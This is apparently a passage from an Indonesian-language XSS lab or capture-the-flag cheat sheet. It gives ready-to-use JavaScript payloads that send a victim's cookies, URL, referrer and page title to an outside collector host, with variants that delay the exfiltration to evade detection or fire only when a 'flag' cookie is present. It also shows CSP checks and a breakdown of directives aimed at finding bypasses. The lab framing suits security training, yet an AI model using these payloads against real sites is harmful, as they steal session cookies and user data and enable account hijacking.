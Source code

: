 #### Multiple Data Points
Exfiltrate lebih dari sekedar cookie:
```javascript
<script>
var data = {
  c: document.cookie,
  u: location.href,
  r: document.referrer,
  t: document.title
};
var params = Object.keys(data).map(k => k + '=' + encodeURIComponent(data[k])).join('&');
location = 'https://eqh42jmm.xssy.uk/?' + params;
</script>
```

#### Stealth Timing
Delay exfiltration untuk menghindari deteksi:
```javascript
<script>
// Wait 2 seconds before exfiltrate
setTimeout(function(){
  location = 'https://eqh42jmm.xssy.uk/?c=' + document.cookie;
}, 2000);
</script>
```

#### Conditional Exfiltration
Hanya exfiltrate jika ada data valuable:
```javascript
<script>
if(document.cookie && document.cookie.includes('flag')){
  location = 'https://eqh42jmm.xssy.uk/?c=' + document.cookie;
}
</script>
```

---

### 6️⃣ CSP Detection & Analysis

#### Quick CSP Check via Browser DevTools
```javascript
// Paste di Browser Console untuk check CSP
console.log(document.querySelector('meta[http-equiv="Content-Security-Policy"]')?.content);

// Atau check HTTP headers
fetch(location.href)
  .then(r => r.headers.get('content-security-policy'))
  .then(csp => console.log(csp));
```

#### Analyze CSP Directives
```
CSP: default-src 'none'; img-src https://xssy.uk/; script-src 'unsafe-inline'

Breakdown:
✅ default-src 'none'     → Blocks everything by default
✅ img-src https://...    → Only allows images from xssy.uk (no subdomain)
✅ script-src 'unsafe-inline' → Allows inline scripts (XSS possible!)
❌ NO connect-src         → fetch/XHR blocked
❌ NO form-action         → Form submission allowed
❌ NO navigate-to         → Navigation allowed ✅
```
